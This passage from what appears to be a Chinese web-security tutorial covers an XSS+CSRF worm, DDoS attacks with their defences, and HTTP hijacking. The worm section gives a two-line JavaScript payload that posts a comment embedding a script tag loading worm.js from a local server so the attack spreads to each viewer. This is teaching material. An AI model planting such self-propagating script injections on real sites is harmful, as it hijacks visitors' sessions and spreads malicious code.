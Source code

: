 ```
        res.json({ code: 1, error: '用户没有登录' });
    }
    //} else {
    res.json({ code: 1, error: 'referer不正确' });
    //}
})

```

#### 2.2.4 xss+csrf(蠕虫)

不断传播的xss+csrf攻击 worm.js

```
const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });

```

## 3\. DDOS攻击

分布式拒绝服务(Distribute Denial Of Service)

-   黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
-   验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
-   限制请求频率是我们最常见的针对 DDOS 攻击的防御措施。其原理为设置每个客户端的请求频率的限制
-   增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
-   设置自己的业务为分布式服务，防止单点失效
-   使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
-   优化资源使用提高 web server 的负载能力

## 4\. HTTP劫持

-   在用户的客户端与其要访问的服务器经过网络协议协调后，二者之间建立了一条专用的数据通道，用户端程序在系统中开放指定网络端口用于接收数据报文，服务器端将全部数据按指定网络协议规则进行分解打包，形成连续数据报文。
-   用户端接收到全部报文后，按照协议标准来解包组合获得完整的网络数据。其中传输过程中的每一个数据包都有特定的标签，表示其来源、携带的数据属性以及要到何处，所有的数据包经过网络路径中ISP的路由器传输接力后，最终到达目的地，也就是客户端。
-   HTTP劫持是在使用者与其目的网络服务所建立的专用数据通道中，监视特定数据信息，提示当满足设定的条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示宣传性广告或者直接显示某网站的内容。

## 参考

-   [zf-safe](https://gitee.com/zhufengpeixun/zf-safe)

Powered by [idoc](https://github.com/jaywcjlove/idoc). Dependence [Node.js](https://nodejs.org) run.